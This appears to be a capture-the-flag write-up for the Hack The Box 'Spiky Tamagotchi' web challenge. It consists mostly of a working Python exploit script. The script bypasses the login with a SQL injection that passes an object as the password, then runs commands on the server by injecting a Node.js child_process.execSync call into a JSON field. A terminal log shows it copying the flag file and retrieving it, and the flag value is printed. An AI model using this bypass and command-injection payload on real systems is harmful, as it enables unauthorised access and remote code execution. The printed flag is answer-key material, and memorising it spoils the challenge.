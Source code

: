 ```python
print("Preparing the SQL Injection exploit...")
url = 'http://' + args.ip + ':' + args.port + '/api/login'
payload = {
    "username":f"{args.username}",
    "password":{
        "password":1
    }
}
jsonData = json.dumps(payload)
headers = {'Content-type': 'application/json'}

# Get a valid token exploiting SQL Injection
print("Exploiting the SQL Injection...")
s = requests.Session()
resp = s.post(url, data = jsonData, headers=headers)
session = s.cookies.get_dict()

# Exploit the RCE
print("Preparing the RCE exploit...")
url = 'http://' + args.ip + ':' + args.port + '/api/activity'
payload = {
    "activity":f"' + (global.process.mainModule.require('child_process').execSync('{args.cmd}'))+'",
    "health":"99",
    "weight":"99",
    "happiness":"99"
    }
jsonData = json.dumps(payload)
headers = {'Content-type': 'application/json'}

print("Exploiting the RCE...")
resp = s.post(url, data = jsonData, headers=headers, cookies=session)
print(resp.status_code)
if resp.status_code == 200:
    print('Exploit succesful!')
else:
    print('Ops, something when wrong...')
```

```bash
┌──(kali㉿kali)-[~/…/Challenge/Web/web_spiky_tamagotchi/exploit]
└─$ python3 exploit.py -i 157.245.46.136 -p 31504 -c "cp /flag.txt /app/static/images/flag.txt"
Preparing the SQL Injection exploit...
Exploiting the SQL Injection...
Preparing the RCE exploit...
Exploiting the RCE...
200
Exploit succesful!

┌──(kali㉿kali)-[~/…/Challenge/Web/web_spiky_tamagotchi/exploit]
└─$ curl http://157.245.46.136:31504/static/images/flag.txt
HTB{s0rry_1m_n07_1nt0_typ3_ch3ck5}
```

# Flag

>[!success]
>`HTB{s0rry_1m_n07_1nt0_typ3_ch3ck5}`


